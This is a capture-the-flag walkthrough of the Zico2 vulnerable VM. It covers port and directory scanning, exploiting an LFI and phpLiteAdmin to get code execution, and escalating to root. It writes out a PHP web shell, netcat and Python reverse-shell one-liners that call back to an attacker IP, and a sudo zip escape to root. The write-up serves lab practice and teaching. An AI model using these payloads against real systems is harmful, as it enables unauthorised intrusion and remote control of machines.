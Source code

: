 # zico2-walkthough

## Tool:Vmware,nmap,nikto,nc

Use nat type and discover the host by:

```bash
discover -r 
```

## Information Gathering

### Port scan

Use nmap to do a full scan on the target. Use command:

```bash
 nmap -Pn -sS —stats-every 3m —max-restries 1 —max-scan-delay 20 —defeat-rst-ratelimit -T4 -p- [ip]
```

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled.png)

We can notice that there is a http port opened.

### Nikto scan

Use nikto to scan the target

```bash
nikto -h [ip]
```

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%201.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%201.png)

Not much information get from nikto, try dirscan.

### Dirscan(dirb,dirbuster,dirsearch)

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%202.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%202.png)

some interesting path discovered.

**CLUE 1**

After browser the pathes, I found that the view.php seems has a LFI. so try

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%203.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%203.png)

**CLUE 2**

There is another clue found by [README.md](http://readme.md)

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%204.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%204.png)

It's a web structure, after google, no important clue found.

**CLUE 3**

the dbadmin reveals a phpLiteAdmin page.

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%205.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%205.png)

Google this version, it seems there there is a RCE on this.

First try poc. Create a db named hack.php, then create a table in which insert a text.

```php
<?php phpinfo() ?>
```

Then use the LFI page to access this page.

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%206.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%206.png)

It works.

## attack

try to upload a shell. first I should check is the target can connect my local mechine. use:

```php
<?php echo shell_exec("nc [ip] 443 "); ?>
```

use 443 port due to sometimes the uncommon port would be banned.

My local kali get the connection from the target. So try some shellcode.

```php
<?php echo shell_exec("nc 192.168.202.137 443 -e /bin/bash "); ?>
```

failed, maybe the nc on target donse't has -e option.

After many tries. I found this

```php
<?php $test = $_GET['cmd']; system($test); ?>
```

and use:

```bash
[http://[ip]/view.php?page=../.../../../usr/databases/hack.php&cmd=python](http://192.168.202.136/view.php?page=../.../../../usr/databases/hack.php&cmd=python) -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.202.137",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

get shell.

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%207.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%207.png)

It seems that there is no '-e' option.

## privilege escape

check the version of linux on target.

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%208.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%208.png)

google and use [https://www.exploit-db.com/exploits/33589](https://www.exploit-db.com/exploits/33589) to have a try.

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%209.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%209.png)

The target crashed.

Get in the home path, and found a wordpress, so look for the config. found the password of zico, so try to change the user.

use sudo -l to check the command can use.

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%2010.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%2010.png)

We can use tar and zip to escape to root.

find a zip file, use this command:

```bash
sudo zip wordpress-4.8.zip wordpress-4.8 -T --unzip-command="sh -c /bin/bash"
```

![zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%2011.png](zico2-walkthough%207e7746d034734ffbb544096c923820c5/Untitled%2011.png)

got root.